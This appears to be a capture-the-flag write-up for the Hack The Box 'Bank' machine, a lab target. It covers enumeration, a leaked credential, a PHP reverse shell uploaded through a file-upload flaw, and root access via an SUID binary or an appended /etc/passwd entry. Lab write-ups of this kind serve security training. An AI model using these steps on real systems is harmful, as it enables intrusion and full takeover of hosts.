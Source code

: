 ```yaml
---
clayout: ctf
title: Bank
date: 2025-08-17
image: /ctf/hack-the-box/machines/bank/info-card.png
type: Hack The Box

ctf:
    - name: Bank
      link: https://app.hackthebox.com/machines/26
      thumbnail: /ctf/hack-the-box/machines/bank/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/26
          thumbnail: /ctf/hack-the-box/machines/bank/pwned.png
---
```


## Challenge Overview

**Bank** is an easy-rated Linux machine that highlights classic **web application exploitation** techniques and **privilege escalation** misconfigurations. The compromise path follows three main stages:

* **Web Enumeration**: Identifying a hidden virtual host and extracting sensitive data
* **Initial Foothold**: Exploiting a weak file upload validation to obtain a reverse shell
* **Privilege Escalation**: Gaining root access via insecure SUID binaries and misconfigured file permissions

## Initial Reconnaissance

### Network Enumeration

Use `nmap` to scan the machine for open ports and services:

```bash
nmap -sC -sV -A -oN nmap.txt 10.10.10.29
```

**Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

**Observations:**

* Web service running on Apache
* DNS service available (suggesting possible subdomain/virtual host usage)
* SSH open for potential later access

### Web Enumeration

#### Virtual Host Discovery

Visiting `http://10.10.10.29` only shows the default Apache page, often an indicator of **name-based virtual hosting**.

Based on the machine’s name, add a host entry for `bank.htb`:

```bash
echo "10.10.10.29 bank.htb" | sudo tee -a /etc/hosts
```

Accessing `http://bank.htb` reveals a login page:

![Bank Login Page](/ctf/hack-the-box/machines/bank/bank-login-page.png)

#### Directory Enumeration

```bash
gobuster dir -u http://bank.htb \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt \
  -x php -o gobuster.txt
```

**Findings:**

```bash
/index.php            (302 → login.php)
/login.php            (200)
/support.php          (302 → login.php)
/uploads              (301)
/assets               (301)
/logout.php           (302 → index.php)
/inc                  (301)
/balance-transfer     (301)
```

The `/balance-transfer` directory stands out, exposing a directory listing containing multiple `.acc` files.

![Balance Transfer Page](/ctf/hack-the-box/machines/bank/balance-transfer-page.png)

## Exploitation

### Credential Disclosure

Most `.acc` files contain encrypted data, but one file (`68576f20e9732f1b2edc4df5b8533230.acc`) leaks plaintext credentials due to a failed encryption process:

```text
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
```

With these credentials, login succeeds and grants access to the bank dashboard.

![Bank Dashboard](/ctf/hack-the-box/machines/bank/bank-dashboard.png)

### File Upload Vulnerability

The **Support** page allows image uploads. Reviewing the source code discloses a dangerous misconfiguration:

```html
<!-- [DEBUG] 
I added the file extension .htb to execute as php for debugging purposes only
[DEBUG] -->
```

This means any `.htb` file is executed as PHP.

**Exploit:**

1. Generate a PHP reverse shell (e.g., [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
2. Upload it as `shell.htb`.
3. Trigger the file via the `Click here` button on `My Tickets` table.

```bash
nc -lvnp 1337
```

Once executed, a reverse shell is obtained:

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**User flag:** Located in `/home/chris/user.txt`

## Privilege Escalation

### Path 1: Abusing SUID Binary

List SUID binaries:

```bash
find / -type f -perm -u=s 2>/dev/null
```

Notable finding:

```bash
/var/htb/bin/emergency
```

This script is misconfigured and executes itself recursively with root privileges, leading to a root shell:

```bash
/var/htb/bin/emergency
id
uid=0(root) gid=0(root)
```

**Root flag:** `/root/root.txt`

### Path 2: Writable /etc/passwd

Another privilege escalation vector is the world-writable `/etc/passwd`:

```bash
ls -l /etc/passwd
-rw-rw-rw- 1 root root ... /etc/passwd
```

**Exploit:**

1. Generate a password hash:

   ```bash
   openssl passwd -1 random
   ```

2. Append a root-level user entry:

   ```bash
   echo 'random:<hash>:0:0:root:/root:/bin/bash' >> /etc/passwd
   ```

3. Switch to the new account:

   ```bash
   su random
   ```

Root access is obtained.

> [!NOTE]
> Always upgrade to a proper TTY before using `su`:
>
> ```bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```

## References

* [Hack The Box - Bank](https://app.hackthebox.com/machines/26)
* [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
